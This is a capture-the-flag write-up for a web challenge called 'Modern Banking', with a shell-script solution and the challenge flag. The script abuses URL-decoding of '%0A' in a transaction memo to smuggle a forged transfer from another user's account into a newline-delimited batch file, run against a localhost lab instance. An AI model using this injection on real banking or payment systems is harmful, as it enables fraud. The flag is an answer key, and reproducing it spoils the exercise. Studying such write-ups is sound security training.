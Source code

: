 # Modern Banking

Author: `Carcharodon`

Our local bank has been hearing about this fancy new thing called the internet for a while. While they still think it's a bit too new to spend too much effort on, they've decided to make an online banking site. And what better language than the language the rest of the bank's services are written in?

## Dev Notes

Request smuggling

## Solution

```sh
#!/bin/sh

# Transactions are processed in batches, and are placed in a newline-delimited file before being processed
# The URL decode function allows translating "%0A" into a newline to make a new transaction from an account the user doesn't own

username="asdf"
password="asdf"
url="http://localhost:8000"

curl -s "$url?page=register" --data-raw "action=register&username=$username&password=$password" >/dev/null
cookie="$(curl -v "$url?page=login" --data-raw "action=login&username=$username&password=$password" 2>&1 | grep Set-Cookie | cut -d' ' -f3)"

account="$(curl "$url?page=home" -b "$cookie" | grep "<tr><td>" | head -n1 | cut -d'>' -f3)"
if [ -z "$account" ]; then
  curl -s "$url?page=manage" -b "$cookie" --data-raw "action=new" >/dev/null
  account="$(curl "$url?page=home" -b "$cookie" | grep "<tr><td>" | head -n1 | cut -d'>' -f3)"
fi

admin_account="$(curl "$url?page=admin" -b "$cookie" | grep "<tr><td>" | head -n1 | cut -d'>' -f3)"

curl -s "$url?page=transact" -b "$cookie" --data-raw "action=send&send_account=1&receive_account=$account&amount=1.00&memo=%0A$admin_account $account 00000000999999999999 :)" >/dev/null

while true; do
  curl -s "$url?page=flag" -b "$cookie" --data-raw "action=buy&account=1" | grep gigem && break
  sleep 5
done

```

flag:
`gigem{C08OL_W45_N0ugHt_1MmuN3}`
